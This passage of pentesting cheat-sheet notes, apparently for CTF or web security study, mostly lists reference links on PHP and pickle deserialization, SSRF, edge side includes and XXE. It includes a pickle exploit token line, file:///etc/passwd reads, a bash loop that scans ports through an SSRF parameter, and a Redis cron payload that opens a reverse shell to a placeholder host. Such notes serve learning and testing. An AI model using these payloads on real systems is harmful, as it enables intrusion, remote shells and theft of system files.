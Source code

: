 - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md
- https://www.saotn.org/exploit-php-mail-get-remote-code-execution/

#### Phar 

- https://github.com/php/php-src/security/advisories/GHSA-jqcx-ccgc-xwhv

## Python

### Flask

- https://ctftime.org/writeup/36100

#### Pickle

- https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/
- https://docs.python.org/3/library/pickle.html#object.__reduce__
- https://stackoverflow.com/questions/23582489/python-pickle-protocol-choice
- https://stackoverflow.com/questions/7501947/understanding-pickling-in-python

```python
#protocol <= 2: python2, 2<protocol<=4: python3
token = base64.b64encode(pickle.dumps(Exploit(), protocol=0))
```

## SSRF
  - https://www.vaadata.com/blog/fr/comprendre-la-vulnerabilite-web-server-side-request-forgery-1/
  - https://www.dailysecurity.fr/server-side-request-forgery/

```bash
file://index.php
file:///etc/passwd

for i in {1..10000}; do curl -s -i http://site.org/index.php --data "url=http://localhost:$i" | grep 'Content-Length'| xargs echo "$i:"; done
dict://127.0.0.1:6379/set -.- "\n\n\n* * * * * bash -i >\x26 /dev/tcp/<ip>/<port> 0>\x261\n\n\n"
```

### Edge side include

- https://book.hacktricks.wiki/en/pentesting-web/server-side-inclusion-edge-side-inclusion-injection.html

## XXE

- https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
 
--------

**Client**

## Doc - Client

